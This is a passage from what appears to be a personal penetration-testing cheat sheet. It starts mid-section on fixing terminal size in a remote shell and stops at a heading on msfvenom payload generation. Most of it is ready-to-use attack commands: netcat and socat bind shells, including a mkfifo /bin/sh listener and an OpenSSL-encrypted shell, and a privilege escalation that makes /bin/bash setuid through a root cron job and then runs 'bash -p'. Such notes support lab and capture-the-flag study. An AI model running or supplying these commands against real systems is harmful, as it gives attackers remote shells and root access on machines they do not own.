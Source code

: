 in a new local terminal `stty -a` and note down the rows and cols
then in the remote shell
`stty rows <number>`
`stty cols <number>`

# Bind Shell
The code executed on the target is used to start a listener attached to a shell directly on the target
i.e. target listens, local connects

## Netcat
On the target 
`nc -lvnp <port> -e "cmd.exe"`

On the attacking (local) machine
`nc <Machine_IP> <port>`

To create a listener for a bind shell (above might not be available in all nc distros):
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

## socat
on the target
`socat TCP-L:<port> EXEC:"bash -li"`

On the attacking machine
`socat TCP:<target-ip>:<target-port> -`

Encrypted shell (follow the steps in bind shell notes to create pem file)
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
Then on the attacking machine
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

# Local security bypass
if you can get root to run a script (i.e. through a cron job)
then consider setting bash as setuid so it runs as root
```
chmod +s /bin/bash
```
then when it's it's setuid set (`ls -l /bin/bash`)
(-p stops the effective user id from being set)
```
/bin/bash -p
```

# Payload generation
## msfvenom
Part of metasploit
